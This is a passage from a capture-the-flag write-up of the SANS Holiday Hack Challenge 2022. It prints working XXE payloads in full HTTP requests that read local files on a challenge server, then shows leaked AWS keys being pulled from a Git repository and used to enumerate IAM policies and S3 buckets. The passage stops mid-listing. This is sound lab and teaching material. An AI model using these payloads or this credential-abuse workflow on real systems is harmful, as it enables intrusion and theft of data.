Well, it's a ring list stored in a simple format, so let's try
:code:`ringlist.txt`.

Now, we search for a `payload that would allow to read a local file
<https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity#read-file>`__:

.. code-block:: http
    :hl_lines: 19 21

    POST /dropped HTTP/1.1
    Host: glamtarielsfountain.com
    Cookie: GCLB="245893ca62dcb86d"; MiniLembanh=408dde46-71cf-440e-a273-f801f09c640c.-A_2od6HzDxSWK9x5SxwJURAsao
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:108.0) Gecko/20100101 Firefox/108.0
    Accept: application/xml
    Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Content-Type: application/xml
    X-Grinchum: Ijc0MzU2YzI1NTU1NmJhMjQ2Mzc4NjYzMWYwNTg1N2ViNmYyNmFkMWUi.Y7bJLw.CoFMFSmUXQ7Ke7ol0JnKxs88EbE
    Content-Length: 221
    Origin: https://glamtarielsfountain.com
    Referer: https://glamtarielsfountain.com/
    Sec-Fetch-Dest: empty
    Sec-Fetch-Mode: cors
    Sec-Fetch-Site: same-origin
    Te: trailers

    <?xml version="1.0" encoding="UTF-8" ?>
    <!DOCTYPE foo [<!ENTITY example SYSTEM "file:///app/static/images/ringlist.txt"> ]>
    <root>
     <imgDrop>&example;</imgDrop>
      <who>princess</who>
      <reqType>xml</reqType>
    </root>

.. code-block:: http
    :hl_lines: 13

    HTTP/1.1 200 OK
    Server: Werkzeug/2.2.2 Python/3.10.8
    Date: Thu, 05 Jan 2023 13:00:33 GMT
    Content-Type: application/json
    Content-Length: 350
    Set-Cookie: MiniLembanh=408dde46-71cf-440e-a273-f801f09c640c.-A_2od6HzDxSWK9x5SxwJURAsao; Domain=glamtarielsfountain.com; Path=/
    Via: 1.1 google
    Alt-Svc: h3=":443"; ma=2592000,h3-29=":443"; ma=2592000

    {
      "appResp": "Ah, you found my ring list! Gold, red, blue - so many colors! Glad I don't keep any secrets in it any more! Please though, don't tell anyone about this.^She really does try to keep things safe. Best just to put it away. (click)",
      "droppedOn": "none",
      "visit": "static/images/pholder-morethantopsupersecret63842.png,262px,100px"
    }

We get an image to a secret folder:

.. image:: /images/sans-christmas-challenge-2022/pholder-morethantopsupersecret63842.png
    :alt: A yellow folder, containing two files.
    :align: center

The folder is labeled :code:`x_phial_pholder_2022` and contains two files:
:code:`redring.txt` and :code:`bluering.txt`. Let's take a look at the blue
ring file:

.. code-block:: http
    :hl_lines: 20

    POST /dropped HTTP/1.1
    Host: glamtarielsfountain.com
    Cookie: GCLB="245893ca62dcb86d"; MiniLembanh=408dde46-71cf-440e-a273-f801f09c640c.-A_2od6HzDxSWK9x5SxwJURAsao
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:108.0) Gecko/20100101 Firefox/108.0
    Accept: application/xml
    Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Content-Type: application/xml
    X-Grinchum: Ijc0MzU2YzI1NTU1NmJhMjQ2Mzc4NjYzMWYwNTg1N2ViNmYyNmFkMWUi.Y7bJLw.CoFMFSmUXQ7Ke7ol0JnKxs88EbE
    Content-Length: 269
    Origin: https://glamtarielsfountain.com
    Referer: https://glamtarielsfountain.com/
    Sec-Fetch-Dest: empty
    Sec-Fetch-Mode: cors
    Sec-Fetch-Site: same-origin
    Te: trailers

    <?xml version="1.0" encoding="UTF-8" ?>
    <!DOCTYPE foo [
    <!ENTITY example SYSTEM "file:///app/static/images/x_phial_pholder_2022/bluering.txt">
    ]>
    <root>
     <imgDrop>&example;</imgDrop>
      <who>princess</who>
      <reqType>xml</reqType>
    </root>

.. code-block:: http

    HTTP/1.1 200 OK
    Server: Werkzeug/2.2.2 Python/3.10.8
    Date: Thu, 05 Jan 2023 13:39:56 GMT
    Content-Type: application/json
    Content-Length: 274
    Set-Cookie: MiniLembanh=408dde46-71cf-440e-a273-f801f09c640c.-A_2od6HzDxSWK9x5SxwJURAsao; Domain=glamtarielsfountain.com; Path=/
    Via: 1.1 google
    Alt-Svc: h3=":443"; ma=2592000,h3-29=":443"; ma=2592000

    {
      "appResp": "I love these fancy blue rings! You can see we have two of them. Not magical or anything, just really pretty.^She definitely tries to convince everyone that the blue ones are her favorites. I'm not so sure though.",
      "droppedOn": "none",
      "visit": "none"
    }

Hmm, nothing, let's see with the red ring:

.. code-block:: http
    :hl_lines: 20

    POST /dropped HTTP/1.1
    Host: glamtarielsfountain.com
    Cookie: GCLB="245893ca62dcb86d"; MiniLembanh=408dde46-71cf-440e-a273-f801f09c640c.-A_2od6HzDxSWK9x5SxwJURAsao
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:108.0) Gecko/20100101 Firefox/108.0
    Accept: application/xml
    Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Content-Type: application/xml
    X-Grinchum: Ijc0MzU2YzI1NTU1NmJhMjQ2Mzc4NjYzMWYwNTg1N2ViNmYyNmFkMWUi.Y7bJLw.CoFMFSmUXQ7Ke7ol0JnKxs88EbE
    Content-Length: 268
    Origin: https://glamtarielsfountain.com
    Referer: https://glamtarielsfountain.com/
    Sec-Fetch-Dest: empty
    Sec-Fetch-Mode: cors
    Sec-Fetch-Site: same-origin
    Te: trailers

    <?xml version="1.0" encoding="UTF-8" ?>
    <!DOCTYPE foo [
    <!ENTITY example SYSTEM "file:///app/static/images/x_phial_pholder_2022/redring.txt">
    ]>
    <root>
     <imgDrop>&example;</imgDrop>
      <who>princess</who>
      <reqType>xml</reqType>
    </root>

.. code-block:: http

    HTTP/1.1 200 OK
    Server: Werkzeug/2.2.2 Python/3.10.8
    Date: Thu, 05 Jan 2023 13:39:40 GMT
    Content-Type: application/json
    Content-Length: 223
    Set-Cookie: MiniLembanh=408dde46-71cf-440e-a273-f801f09c640c.-A_2od6HzDxSWK9x5SxwJURAsao; Domain=glamtarielsfountain.com; Path=/
    Via: 1.1 google
    Alt-Svc: h3=":443"; ma=2592000,h3-29=":443"; ma=2592000

    {
      "appResp": "Hmmm, you still seem awfully interested in these rings. I can't blame you, they are pretty nice.^Oooooh, I can just tell she'd like to talk about them some more.",
      "droppedOn": "none",
      "visit": "none"
    }

Still nothing... What about the silver ring? Glamtariel does not have one,
let's see what she has to say about it:

.. code-block:: http
    :hl_lines: 20

    POST /dropped HTTP/1.1
    Host: glamtarielsfountain.com
    Cookie: GCLB="245893ca62dcb86d"; MiniLembanh=408dde46-71cf-440e-a273-f801f09c640c.-A_2od6HzDxSWK9x5SxwJURAsao
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:108.0) Gecko/20100101 Firefox/108.0
    Accept: application/xml
    Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Content-Type: application/xml
    X-Grinchum: Ijc0MzU2YzI1NTU1NmJhMjQ2Mzc4NjYzMWYwNTg1N2ViNmYyNmFkMWUi.Y7bJLw.CoFMFSmUXQ7Ke7ol0JnKxs88EbE
    Content-Length: 271
    Origin: https://glamtarielsfountain.com
    Referer: https://glamtarielsfountain.com/
    Sec-Fetch-Dest: empty
    Sec-Fetch-Mode: cors
    Sec-Fetch-Site: same-origin
    Te: trailers

    <?xml version="1.0" encoding="UTF-8" ?>
    <!DOCTYPE foo [
    <!ENTITY example SYSTEM "file:///app/static/images/x_phial_pholder_2022/silverring.txt">
    ]>
    <root>
     <imgDrop>&example;</imgDrop>
      <who>princess</who>
      <reqType>xml</reqType>
    </root>

.. code-block:: http
    :hl_lines: 13

    HTTP/1.1 200 OK
    Server: Werkzeug/2.2.2 Python/3.10.8
    Date: Thu, 05 Jan 2023 13:40:12 GMT
    Content-Type: application/json
    Content-Length: 368
    Set-Cookie: MiniLembanh=408dde46-71cf-440e-a273-f801f09c640c.-A_2od6HzDxSWK9x5SxwJURAsao; Domain=glamtarielsfountain.com; Path=/
    Via: 1.1 google
    Alt-Svc: h3=":443"; ma=2592000,h3-29=":443"; ma=2592000

    {
      "appResp": "I'd so love to add that silver ring to my collection, but what's this? Someone has defiled my red ring! Click it out of the way please!.^Can't say that looks good. Someone has been up to no good. Probably that miserable Grinchum!",
      "droppedOn": "none",
      "visit": "static/images/x_phial_pholder_2022/redring-supersupersecret928164.png,267px,127px"
    }

We get a picture of the red ring but...

.. image:: /images/sans-christmas-challenge-2022/redring-supersupersecret928164.png
    :alt: Glamtariel's red ring, but something is written on it.
    :align: center

The inside of the red ring reads :code:`goldring_to_be_deleted.txt`. Let's ask
Glamtariel about this interesting file:

.. code-block:: http
    :hl_lines: 20

    POST /dropped HTTP/1.1
    Host: glamtarielsfountain.com
    Cookie: GCLB="245893ca62dcb86d"; MiniLembanh=408dde46-71cf-440e-a273-f801f09c640c.-A_2od6HzDxSWK9x5SxwJURAsao
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:108.0) Gecko/20100101 Firefox/108.0
    Accept: application/xml
    Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Content-Type: application/xml
    X-Grinchum: Ijc0MzU2YzI1NTU1NmJhMjQ2Mzc4NjYzMWYwNTg1N2ViNmYyNmFkMWUi.Y7bJLw.CoFMFSmUXQ7Ke7ol0JnKxs88EbE
    Content-Length: 283
    Origin: https://glamtarielsfountain.com
    Referer: https://glamtarielsfountain.com/
    Sec-Fetch-Dest: empty
    Sec-Fetch-Mode: cors
    Sec-Fetch-Site: same-origin
    Te: trailers

    <?xml version="1.0" encoding="UTF-8" ?>
    <!DOCTYPE foo [
    <!ENTITY example SYSTEM "file:///app/static/images/x_phial_pholder_2022/goldring_to_be_deleted.txt">
    ]>
    <root>
     <imgDrop>&example;</imgDrop>
      <who>princess</who>
      <reqType>xml</reqType>
    </root>

.. code-block:: http

    HTTP/1.1 200 OK
    Server: Werkzeug/2.2.2 Python/3.10.8
    Date: Thu, 05 Jan 2023 13:40:26 GMT
    Content-Type: application/json
    Content-Length: 333
    Set-Cookie: MiniLembanh=408dde46-71cf-440e-a273-f801f09c640c.-A_2od6HzDxSWK9x5SxwJURAsao; Domain=glamtarielsfountain.com; Path=/
    Via: 1.1 google
    Alt-Svc: h3=":443"; ma=2592000,h3-29=":443"; ma=2592000

    {
      "appResp": "Hmmm, and I thought you wanted me to take a look at that pretty silver ring, but instead, you've made a pretty bold REQuest. That's ok, but even if I knew anything about such things, I'd only use a secret TYPE of tongue to discuss them.^She's definitely hiding something.",
      "droppedOn": "none",
      "visit": "none"
    }

Hmm, two new capitalized words: :code:`REQ` and :code:`TYPE`. She's giving us
a clue about the :code:`reqType` parameter. Maybe we should try triggering the
XXE with the :code:`reqType` parameter. She's also asking for a silver ring in
exchange. If you remember, the silver ring was :code:`img1`. Let's send
:code:`img1` and trigger the XXE in :code:`reqType`:

.. code-block:: http
    :hl_lines: 20 23 25

    POST /dropped HTTP/1.1
    Host: glamtarielsfountain.com
    Cookie: GCLB="245893ca62dcb86d"; MiniLembanh=03a5bb54-8add-4ddd-be89-358a7c0190a8.9h2D9t5bC9rE7URTCfuM0bVr0qM
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:108.0) Gecko/20100101 Firefox/108.0
    Accept: application/xml
    Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Content-Type: application/xml
    X-Grinchum: IjdmNmM4M2VjZGEzZDc4YmFhYjA0YzU5YThkOGEwNDgxNDdlNTdmZTIi.Y7bXXw.jmgvyTtU6Y5LRouZtg0MMYAHdSo
    Content-Length: 260
    Origin: https://glamtarielsfountain.com
    Referer: https://glamtarielsfountain.com/
    Sec-Fetch-Dest: empty
    Sec-Fetch-Mode: cors
    Sec-Fetch-Site: same-origin
    Te: trailers

    <?xml version="1.0" encoding="UTF-8" ?>
    <!DOCTYPE foo [
    <!ENTITY example SYSTEM "file:///app/static/images/x_phial_pholder_2022/goldring_to_be_deleted.txt">
    ]>
    <root>
     <imgDrop>img1</imgDrop>
      <who>princess</who>
      <reqType>&example;</reqType>
    </root>

.. code-block:: http
    :hl_lines: 13

    HTTP/1.1 200 OK
    Server: Werkzeug/2.2.2 Python/3.10.8
    Date: Thu, 05 Jan 2023 14:45:29 GMT
    Content-Type: application/json
    Content-Length: 593
    Set-Cookie: MiniLembanh=03a5bb54-8add-4ddd-be89-358a7c0190a8.9h2D9t5bC9rE7URTCfuM0bVr0qM; Domain=glamtarielsfountain.com; Path=/
    Via: 1.1 google
    Alt-Svc: h3=":443"; ma=2592000,h3-29=":443"; ma=2592000

    {
      "appResp": "No, really I couldn't. Really? I can have the beautiful silver ring? I shouldn't, but if you insist, I accept! In return, behold, one of Kringle's golden rings! Grinchum dropped this one nearby. Makes one wonder how 'precious' it really was to him. Though I haven't touched it myself, I've been keeping it safe until someone trustworthy such as yourself came along. Congratulations!^Wow, I have never seen that before! She must really trust you!",
      "droppedOn": "none",
      "visit": "static/images/x_phial_pholder_2022/goldring-morethansupertopsecret76394734.png,200px,290px"
    }

We finally get our golden ring, with file name
:code:`goldring-morethansupertopsecret76394734.png`:

.. image:: /images/sans-christmas-challenge-2022/goldring-morethansupertopsecret76394734.png
    :alt: The golden ring. It has three white stars on it.
    :align: center

Phew, that's done! I want to thank the people in the HHC Discord server for
their help, especially MichelleB, elakamarcus, and DP. They were able to nudge
me in the right directions and confirm my theories without spoiling anything.
Team work makes the dream work.

.. image:: /images/sans-christmas-challenge-2022/akbowl.png
    :alt: Akbowl, same image as before.
    :align: center

*Akbowl says*

    No! That's not yours!

    This birdbath showed me images of this happening.

    But I didn't believe it because nobody is better than Akbowl!

    Akbowl's head is the hardest! That's what the other sporcs tell me.

    I guess Akbowl's head is not the smartest.

Don't be mad, Akbowl, but we get the third ring: the Web Ring:

.. image:: /images/sans-christmas-challenge-2022/web_ring.png
    :alt: The Tolkien Ring. It's a simple golden ring, like the one from Lord
        of the Rings, etched with an XSS payload and a JavaScript alert pop-up.
    :align: center

Right next to the fountain, Grinchum is fuming:

.. image:: /images/sans-christmas-challenge-2022/smeagolmad2.png
    :alt: Grinchum, still frowning.
    :align: center

*Grinchum says*

    😏 *First lost... second lost... third lost.* 😟

    *Where are they?* 😦 *WHERE ARE THEY, preciouses?*

    *No! Aaargh! Lost!*

    😖 **You - naggy human. Musn't bother us.** 😱 **Not its business!**
    *grinchum..grinchum*

Recover the Cloud Ring
~~~~~~~~~~~~~~~~~~~~~~

Down and down we go, where we meet our first two Sporcs!

.. image:: /images/sans-christmas-challenge-2022/brozeek.png
    :alt: Brozeek is a Sporc. Basically an orc: Green skin, square jaw, bald
        head. He's wearing a long red coat, black pants, black snow shoes,
        a giant black belt with a golden buckle across his chest, and two
        spaulders.
    :align: center

*Brozeek says*

    Cro! Slicmer got me on the BSRS pre-sale!

    Now all we gotta do is swap outfits, then you can go back in there as me.

    Tell Slicmer you lost your wallet key, so you made a new wallet and need to
    add it to the list.

    Then give him your wallet address, and we'll both be able to buy an NFT!

    Social engineering at its finest, Cro.

.. image:: /images/sans-christmas-challenge-2022/crozag.png
    :alt: Crozag is a Sporc wearing a red toga, black snow shoes, white fur
        shoulder pads, and a breastplate.
    :align: center

*Crozag says*

    Bro, you usually have good ideas, but this one is really terrible.

    Manipulating friends with social engineering isn't cool, Bro.

    Let's do it!

Looks like there's a cryptocoin pre-sale going on and these two Sporcs want in
on it. Let's put a pin on it for now and go on.

AWS CLI Intro
-------------

We enter the Cloud Ring room, and find Jill Underpole:

.. image:: /images/sans-christmas-challenge-2022/jillunderpole.png
    :alt: Jill Underpole is a Flobbit with black skin and curly dark hair. She
        is wearing a green dress with white sleeves, a white apron, and a red
        cape.
    :align: center

*Jill Underpole says*

    Umm, can I help you?

    Me? I'm Jill Underpole, thank you very much.

    I'm working on this here smoke terminal.

    Cloud? Sure, whatever you want to call it.

    Anyway, you're welcome to try this out, if you think you know what you're
    doing.

    You'll have to learn some basics about the AWS command line interface (CLI)
    to be successful though.

Let's connect to the terminal and answer the questions:

.. code-block:: text

    You may not know this, but AWS CLI help messages are very easy to access. First, try typing:
    $ aws help

.. code-block:: console

    elf@4c2c76400f83:~$ aws help

.. code-block:: text

    Great! When you're done, you can quit with q.
    Next, please configure the default aws cli credentials with the access key AKQAAYRKO7A5Q5XUY2IY, the secret key qzTscgNdcdwIo/soPKPoJn9sBrl5eMQQL19iO5uf and the region us-east-1 .
    https://docs.aws.amazon.com/cli/latest/userguide/cli-configure-quickstart.html#cli-configure-quickstart-config

.. code-block:: console

    elf@4c2c76400f83:~$ aws configure
    AWS Access Key ID [None]: AKQAAYRKO7A5Q5XUY2IY
    AWS Secret Access Key [None]: qzTscgNdcdwIo/soPKPoJn9sBrl5eMQQL19iO5uf
    Default region name [None]: us-east-1
    Default output format [None]:

.. code-block:: text

    Excellent! To finish, please get your caller identity using the AWS command line. For more details please reference:
    $ aws sts help
    or reference:
    https://awscli.amazonaws.com/v2/documentation/api/latest/reference/sts/index.html

.. code-block:: console

    elf@4c2c76400f83:~$ aws sts get-caller-identity
    {
        "UserId": "AKQAAYRKO7A5Q5XUY2IY",
        "Account": "602143214321",
        "Arn": "arn:aws:iam::602143214321:user/elf_helpdesk"
    }

.. code-block:: text

    Great, you did it all!

Having answered all the questions, we talk to Jill:

.. image:: /images/sans-christmas-challenge-2022/jillunderpole.png
    :alt: Jill Underpole, same image as before.
    :align: center

*Jill Underpole says*

    Wait, you got it done, didn't you?

    Ok, consider me impressed. You could probably help Gerty, too.

    The first trick'll be running the Trufflehog tool.

    It's as good at sniffing out secrets as I am at finding mushrooms!

    After that, it's just a matter of getting to the secret the tool found.

    I'd bet a basket of portobellos you'll get this done!

Trufflehog Search
-----------------

.. image:: /images/sans-christmas-challenge-2022/gertysnowburrow.png
    :alt: Gerty Snowburrow is a Flobbit with white skin and shoulder-length
        blond hair. She's wearing a red ress with white sleeves, and a green
        cape.
    :align: center

*Gerty Snowburrow says*

    Well now, look who's venturing down into the caves!

    And well, who might you be, exactly?

    I'm Gerty Snowburrow, if you need to know.

    And, not that I should be telling you, but I'm trying to figure out what
    Alabaster Snowball's done this time.

    Word is, he committed some secrets to `a code repo <https://haugfactory.com/asnowball/aws_scripts.git>`__.

    If you're feeling so inclined, you can try and find them for me

The name of the objective is clearly an indication to use `Trufflehog
<https://github.com/trufflesecurity/trufflehog>`__, a tool to find common
secrets in several locations (S3 buckets, Git repositories or commits, etc.).

Let's run :code:`trufflehog git` on the Git URL Gerty gives us:

.. code-block:: console
    :hl_lines: 5 6 7 8 9

    $ ~/tools/trufflehog/trufflehog git https://haugfactory.com/orcadmin/aws_scripts
    🐷🔑🐷  TruffleHog. Unearth your secrets. 🐷🔑🐷

    Found unverified result 🐷🔑❓
    Detector Type: AWS
    Decoder Type: PLAIN
    Raw result: AKIAAIDAYRANYAHGQOHD
    Commit: 106d33e1ffd53eea753c1365eafc6588398279b5
    File: put_policy.py
    Email: asnowball <alabaster@northpolechristmastown.local>
    Repository: https://haugfactory.com/orcadmin/aws_scripts
    Timestamp: 2022-09-07 07:53:12 -0700 -0700
    Line: 6

    Found unverified result 🐷🔑❓
    Detector Type: Gitlab
    Decoder Type: PLAIN
    Raw result: add-a-file-using-the-
    Repository: https://haugfactory.com/orcadmin/aws_scripts
    Timestamp: 2022-09-06 19:54:48 +0000 +0000
    Line: 14
    Commit: 2c77c1e0a98715e32a277859864e8f5918aacc85
    File: README.md
    Email: alabaster snowball <alabaster@northpolechristmastown.local>

    Found unverified result 🐷🔑❓
    Detector Type: Gitlab
    Decoder Type: BASE64
    Raw result: add-a-file-using-the-
    Email: alabaster snowball <alabaster@northpolechristmastown.local>
    Repository: https://haugfactory.com/orcadmin/aws_scripts
    Timestamp: 2022-09-06 19:54:48 +0000 +0000
    Line: 14
    Commit: 2c77c1e0a98715e32a277859864e8f5918aacc85
    File: README.md

Looks like Alabaster commited an AWS secret to the :code:`put_policy.py` file.

.. image:: /images/sans-christmas-challenge-2022/gertysnowburrow.png
    :alt: Gerty Snowburrow, same image as before.
    :align: center

*Gerty Snowburrow says*

    Say, you got it done, didn't you?

    Well now, you might just be able to tackle the other AWS terminal down
    here.

    It's a bit more involved, but you've got the credentials to get it started
    now.

    Before you try it, you should know the difference between managed and
    inline policies.

    Short version: inline policies apply to one identity (user, role, group),
    and managed policies can be attached to many identities.

    There are different AWS CLI commands to interact with each kind.

    Other than that, the important bit is to know a bit about cloud or IAM
    privilege escalation.

    Sometimes attackers find access to more resources by just trying things
    until something works.

    But if they have access to the iam service inside the AWS CLI, they might
    just be able to ask what access they have!

    You can do it!

Exploitation via AWS CLI
------------------------

.. image:: /images/sans-christmas-challenge-2022/sulfrod.png
    :alt: Sulfrod is a Sporc with long dark green hair. She's wearing a silver
        armor with a red tabard and a black belt with a golden buckle.
    :align: center

*Sulfrod says*

    Hey! You - come here!

    You look like someone who knows how to do this nerd stuff.

    I need my terminal to be stronger, like me!

    *flexes*

    You're gonna do that for me so I can bust into this cloud machine thing.

Let's try to get the ring before she can. To complete this challenge, we must
enter a series of AWS functions. The questions always point to the `AWS
documentation <https://awscli.amazonaws.com/v2/documentation/api/latest/reference/index.html>`__.
It should be easy to find the proper function.

.. code-block:: text

    Use Trufflehog to find credentials in the Gitlab instance at https://haugfactory.com/asnowball/aws_scripts.git.
    Configure these credentials for us-east-1 and then run:
    $ aws sts get-caller-identity

We ran Trufflehog in the last objective. It gave us the commit and the file
containing the AWS secret. Let's clone the repository and check it out:

*(Note: the URL is different because the one given by Gerty gives an HTTP
redirection. Also, sorry for ze French output, my computer is configured in
French.)*

.. code-block:: console
    :hl_lines: 28 29

    $ git clone https://haugfactory.com/orcadmin/aws_scripts
    Clonage dans 'aws_scripts'...
    warning: redirection vers https://haugfactory.com/orcadmin/aws_scripts.git/
    remote: Enumerating objects: 64, done.
    remote: Total 64 (delta 0), reused 0 (delta 0), pack-reused 64
    Dépaquetage des objets: 100% (64/64), 23.83 Kio | 739.00 Kio/s, fait.
    $ cd aws_scripts
    $ git checkout 106d33e1ffd53eea753c1365eafc6588398279b5
    Note : basculement sur '106d33e1ffd53eea753c1365eafc6588398279b5'.

    Vous êtes dans l'état « HEAD détachée ». Vous pouvez visiter, faire des modifications
    expérimentales et les valider. Il vous suffit de faire un autre basculement pour
    abandonner les commits que vous faites dans cet état sans impacter les autres branches

    Si vous voulez créer une nouvelle branche pour conserver les commits que vous créez,
    il vous suffit d'utiliser l'option -c de la commande switch comme ceci :

      git switch -c <nom-de-la-nouvelle-branche>

    Ou annuler cette opération avec :

      git switch -

    Désactivez ce conseil en renseignant la variable de configuration advice.detachedHead à false

    HEAD est maintenant sur 106d33e added
    $ grep aws_ put_policy.py
    aws_access_key_id="AKIAAIDAYRANYAHGQOHD",
    aws_secret_access_key="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",

We now have the secret access key and the key ID, we can configure it in our
AWS CLI:

.. code-block:: console
    :hl_lines: 10

    elf@80c2de61d99b:~$ aws configure
    AWS Access Key ID [None]: AKIAAIDAYRANYAHGQOHD
    AWS Secret Access Key [None]: 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
    Default region name [None]: us-east-1
    Default output format [None]:
    elf@80c2de61d99b:~$ aws sts get-caller-identity
    {
        "UserId": "AIDAJNIAAQYHIAAHDDRA",
        "Account": "602123424321",
        "Arn": "arn:aws:iam::602123424321:user/haug"
    }

.. code-block:: text

    Managed (think: shared) policies can be attached to multiple users. Use the AWS CLI to find any policies attached to your user.
    The aws iam command to list attached user policies can be found here:
    https://awscli.amazonaws.com/v2/documentation/api/latest/reference/iam/index.html
    Hint: it is NOT list-user-policies.

We know from our previous command that our username is :code:`haug`.

.. code-block:: console
    :hl_lines: 6 18

    elf@80c2de61d99b:~$ aws iam list-attached-user-policies --user-name haug
    {
        "AttachedPolicies": [
            {
                "PolicyName": "TIER1_READONLY_POLICY",
                "PolicyArn": "arn:aws:iam::602123424321:policy/TIER1_READONLY_POLICY"
            }
        ],
        "IsTruncated": false
    }
    elf@80c2de61d99b:~$ aws iam get-policy --policy-arn arn:aws:iam::602123424321:policy/TIER1_READONLY_POLICY
    {
        "Policy": {
            "PolicyName": "TIER1_READONLY_POLICY",
            "PolicyId": "ANPAYYOROBUERT7TGKUHA",
            "Arn": "arn:aws:iam::602123424321:policy/TIER1_READONLY_POLICY",
            "Path": "/",
            "DefaultVersionId": "v1",
            "AttachmentCount": 11,
            "PermissionsBoundaryUsageCount": 0,
            "IsAttachable": true,
            "Description": "Policy for tier 1 accounts to have limited read only access to certain resources in IAM, S3, and LAMBDA.",
            "CreateDate": "2022-06-21 22:02:30+00:00",
            "UpdateDate": "2022-06-21 22:10:29+00:00",
            "Tags": []
        }
    }

.. code-block:: text

    Attached policies can have multiple versions. View the default version of this policy.
    The aws iam command to get a policy version can be found here:
    https://awscli.amazonaws.com/v2/documentation/api/latest/reference/iam/index.html

We know from our previous command that the default version is :code:`v1`.

.. code-block:: console

    elf@80c2de61d99b:~$ aws iam get-policy-version --policy-arn arn:aws:iam::602123424321:policy/TIER1_READONLY_POLICY --version-id v1
    {
        "PolicyVersion": {
            "Document": {
                "Version": "2012-10-17",
                "Statement": [
                    {
                        "Effect": "Allow",
                        "Action": [
                            "lambda:ListFunctions",
                            "lambda:GetFunctionUrlConfig"
                        ],
                        "Resource": "*"
                    },
                    {
                        "Effect": "Allow",
                        "Action": [
                            "iam:GetUserPolicy",
                            "iam:ListUserPolicies",
                            "iam:ListAttachedUserPolicies"
                        ],
                        "Resource": "arn:aws:iam::602123424321:user/${aws:username}"
                    },
                    {
                        "Effect": "Allow",
                        "Action": [
                            "iam:GetPolicy",
                            "iam:GetPolicyVersion"
                        ],
                        "Resource": "arn:aws:iam::602123424321:policy/TIER1_READONLY_POLICY"
                    },
                    {
                        "Effect": "Deny",
                        "Principal": "*",
                        "Action": [
                            "s3:GetObject",
                            "lambda:Invoke*"
                        ],
                        "Resource": "*"
                    }
                ]
            },
            "VersionId": "v1",
            "IsDefaultVersion": false,
            "CreateDate": "2022-06-21 22:02:30+00:00"
        }
    }

.. code-block:: text

    Inline policies are policies that are unique to a particular identity or resource. Use the AWS CLI to list the inline policies associated with your user.
    The aws iam command to list user policies can be found here:
    https://awscli.amazonaws.com/v2/documentation/api/latest/reference/iam/index.html
    Hint: it is NOT list-attached-user-policies.

.. code-block:: console
    :hl_lines: 4

    elf@80c2de61d99b:~$ aws iam list-user-policies --user-name haug
    {
        "PolicyNames": [
            "S3Perms"
        ],
        "IsTruncated": false
    }

.. code-block:: text

    Now, use the AWS CLI to get the only inline policy for your user.
    The aws iam command to get a user policy can be found here:
    https://awscli.amazonaws.com/v2/documentation/api/latest/reference/iam/index.html

.. code-block:: console
    :hl_lines: 15 16

    elf@80c2de61d99b:~$ aws iam get-user-policy --user-name haug --policy-name S3Perms
    {
        "UserPolicy": {
            "UserName": "haug",
            "PolicyName": "S3Perms",
            "PolicyDocument": {
                "Version": "2012-10-17",
                "Statement": [
                    {
                        "Effect": "Allow",
                        "Action": [
                            "s3:ListObjects"
                        ],
                        "Resource": [
                            "arn:aws:s3:::smogmachines3",
                            "arn:aws:s3:::smogmachines3/*"
                        ]
                    }
                ]
            }
        },
        "IsTruncated": false
    }

.. code-block:: text

    The inline user policy named S3Perms disclosed the name of an S3 bucket that you have permissions to list objects.
    List those objects!
    The aws s3api command to list objects in an s3 bucket can be found here:
    https://awscli.amazonaws.com/v2/documentation/api/latest/reference/s3api/index.html

We know from our previous command that the S3 bucket is named
:code:`smogmachines3`.

.. code-block:: console

    elf@80c2de61d99b:~$ aws s3api list-objects --bucket smogmachines3
    {
        "IsTruncated": false,
        "Marker": "",
        "Contents": [
            {
                "Key": "coal-fired-power-station.jpg",
                "LastModified": "2022-09-23 20:40:44+00:00",
                "ETag": "\"1c70c98bebaf3cff781a8fd3141c2945\"",
                "Size": 59312,
                "StorageClass": "STANDARD",
                "Owner": {
                    "DisplayName": "grinchum",
                    "ID": "15f613452977255d09767b50ac4859adbb2883cd699efbabf12838fce47c5e60"
                }
            },
            {
                "Key": "industry-smog.png",
                "LastModified": "2022-09-23 20:40:47+00:00",
                "ETag": "\"c0abe5cb56b7a33d39e17f430755e615\"",
                "Size": 272528,
                "StorageClass": "STANDARD",
                "Owner": {
                    "DisplayName": "grinchum",
                    "ID": "15f613452977255d09767b50ac4859adbb2883cd699efbabf12838fce47c5e60"
                }
            },
            {
                "Key": "pollution-smoke.jpg",
                "LastModified": "2022-09-23 20:40:43+00:00",
                "ETag": "\"465b675c70d73027e13ffaec1a38beec\"",
                "Size": 33064,
                "StorageClass": "STANDARD",
                "Owner": {
                    "DisplayName": "grinchum",
                    "ID": "15f613452977255d09767b50ac4859adbb2883cd699efbabf12838fce47c5e60"
                }
            },
            {
                "Key": "pollution.jpg",
                "LastModified": "2022-09-23 20:40:45+00:00",
                "ETag": "\"d40d1db228c9a9b544b4c552df712478\"",
                "Size": 81775,
                "StorageClass": "STANDARD",
                "Owner": {
                    "DisplayName": "grinchum",
                    "ID": "15f613452977255d09767b50ac4859adbb2883cd699efbabf12838fce47c5e60"
                }
            },
            {
                "Key": "power-station-smoke.jpg",
                "LastModified": "2022-09-23 20:40:48+00:00",
                "ETag": "\"2d7a8c8b8f5786103769e98afacf57de\"",
                "Size": 45264,
                "StorageClass": "STANDARD",
                "Owner": {
                    "DisplayName": "grinchum",
                    "ID": "15f613452977255d09767b50ac4859adbb2883cd699efbabf12838fce47c5e60"
                }
            },
            {
                "Key": "smog-power-station.jpg",
                "LastModified": "2022-09-23 20:40:46+00:00",
                "ETag": "\"0e69b8d53d97db0db9f7de8663e9ec09\"",
